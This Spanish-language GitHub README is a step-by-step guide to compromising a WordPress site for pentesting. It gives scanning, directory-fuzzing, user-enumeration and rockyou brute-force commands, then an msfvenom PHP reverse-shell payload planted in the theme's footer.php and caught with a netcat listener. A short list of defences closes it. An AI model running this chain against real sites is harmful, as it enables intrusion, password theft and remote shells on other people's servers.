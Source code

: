 # Guía: Conexión Reversa en WordPress (Pentesting Legal) 

![image](https://github.com/90l3m0np13/REVERPRESS/blob/main/Doc/Portada.jpeg)

⚠️ ADVERTENCIA
Este repositorio es únicamente para fines educativos y pruebas legales en entornos autorizados.  
No utilices esta información para actividades ilegales. El acceso no autorizado a sistemas es un delito.  

---

## Requisitos  
- Máquina atacante con Kali Linux (o similar).  
- Acceso legal a un entorno WordPress para pruebas.  
- Herramientas instaladas:  
  - gobuster  
  - wpscan  
  - msfvenom  
  - netcat  

---

## Pasos para Establecer una Reverse Shell en WordPress  

### 1. Escaneo de Puertos  
Identificamos si el puerto 80 (HTTP) está abierto:  
```bash
nmap -p 80 <IP-VÍCTIMA> -v
```

### 2. Fuzzing de Directorios con Gobuster  
Buscamos rutas ocultas en el servidor:  
```bash
gobuster dir -u http://<IP-VÍCTIMA>/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![image](https://github.com/90l3m0np13/REVERPRESS/blob/main/Doc/Gobuster1.png)

### 3. Análisis de Subdirectorios  
- Si alguna ruta no carga correctamente, revisamos el código fuente (Ctrl + U) para ver posibles subdominios.  
- Editamos /etc/hosts para resolver el dominio:  
  ```bash
  echo "<IP-VÍCTIMA> subdominio.encontrado.com" | sudo tee -a /etc/hosts
  ```
![image](https://github.com/90l3m0np13/REVERPRESS/blob/main/Doc/fichero-etc-host.png)
- Volvemos a ejecutar gobuster con el nuevo subdominio.  

### 4. Encontrar el Panel de WordPress  
Buscamos el directorio wp-admin (panel de login):  
```bash
gobuster dir -u http://<IP-VÍCTIMA>/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html
```
![image](https://github.com/90l3m0np13/REVERPRESS/blob/main/Doc/Gobuster2.png)

### 5. Enumeración de Usuarios con WPScan  
Obtenemos una lista de usuarios posibles:  
```bash
wpscan --url http://<IP-VÍCTIMA>/ --enumerate u, vp
```

![image](https://github.com/90l3m0np13/REVERPRESS/blob/main/Doc/wpscan_usuarios.png)

### 6. Fuerza Bruta con WPScan (RockYou)  
Intentamos crackear contraseñas:  
```bash
wpscan --url http://<IP-VÍCTIMA>/ --passwords /usr/share/wordlists/rockyou.txt --usernames <USUARIO_ENCONTRADO>
```

### 7. Generación del Payload con Msfvenom  
Creamos un payload en PHP para reverse shell:  
```bash
msfvenom -p php/reverse_php LHOST=<TU_IP> LPORT=<PUERTO> -f raw > pwned.php
```
- LHOST: Tu dirección IP.  
- LPORT: Puerto de escucha (ej: 4444).

![image](https://github.com/90l3m0np13/REVERPRESS/blob/main/Doc/MSFVENOM.png)

### 8. Inyección del Payload en WordPress  
1. Accedemos al panel de WordPress (/wp-admin).  
2. Vamos a Appearance → Themes → Theme Editor → Theme Footer (footer.php).  
3. Borramos todo el contenido y pegamos el código del payload.  
4. Guardamos cambios.

![image](https://github.com/90l3m0np13/REVERPRESS/blob/main/Doc/them%20footer.png)

### 9. Poner en Escucha con Netcat  
Ejecutamos en nuestra máquina:  
```bash
nc -lvnp <PUERTO>
```

### 10. Ejecutar el Payload  
- Recargamos la página principal o cualquier página del sitio.  
- Si todo funciona, obtendrás una shell inversa en tu terminal con netcat.  

---

## Protección Contra Este Ataque  
Si eres administrador de WordPress, sigue estas medidas:  
✅ Usa contraseñas fuertes y autenticación en dos pasos (2FA).  
✅ Actualiza WordPress, plugins y temas.  
✅ Limita el acceso a wp-admin por IP.  
✅ Instala plugins de seguridad como Wordfence o Sucuri.  
✅ Deshabilita la edición de temas desde el panel.  

